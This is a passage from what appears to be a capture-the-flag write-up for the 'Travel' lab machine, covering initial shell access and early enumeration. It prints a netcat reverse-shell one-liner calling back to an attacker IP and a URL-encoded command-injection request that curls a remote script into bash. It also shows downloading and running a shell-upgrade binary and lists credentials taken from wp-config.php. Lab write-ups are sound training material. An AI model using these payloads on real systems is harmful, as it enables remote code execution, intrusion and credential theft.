 ## Popping a Shell

To pop our shell, we can host the following shell.sh script on our webserver:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 4444 >/tmp/f
```

Now, we just need to url encode the payload and curl it into bash:

```
http://blog.travel.htb/wp-content/themes/twentytwenty/logs/poc.php?cmd=curl%20http%3a%2f%2f10.10.xx.xx%2fshell.sh%20|%20bash

$ whoami
www-data
```

## Upgrading our Shell

This box doesn't have python or python3 installed, and the perl tty upgrade doesn't want to work. Instead, we'll use Postshell to give ourselves a fully interactive shell:

```
git clone https://github.com/rek7/postshell
cd postshell && sh compile.sh
```

Now, we can curl this onto the victim's box (since we don't have wget), chmod it and execute it:

```
cd /var/tmp
curl http://10.10.xx.xx/stub -o stub

chmod +x stub
./stub 10.10.xx.xx 4444

www-data@blog:/var/tmp$ whoami
www-data
```

## Internal Enumeration


We find some credentials in wp-config.php:

**wp:fiFtDDV9LYe8Ti**

Looking around the database doesn't show us anything interesting. However, running lse.sh shows us that a backup of the database exists:

```
-rw-r--r-- 1 root root 1190388 Apr 24 06:39 /opt/wordpress/backup-13-04-2020.sql
```

If we pull this to our local machine, we can load it into mysql:

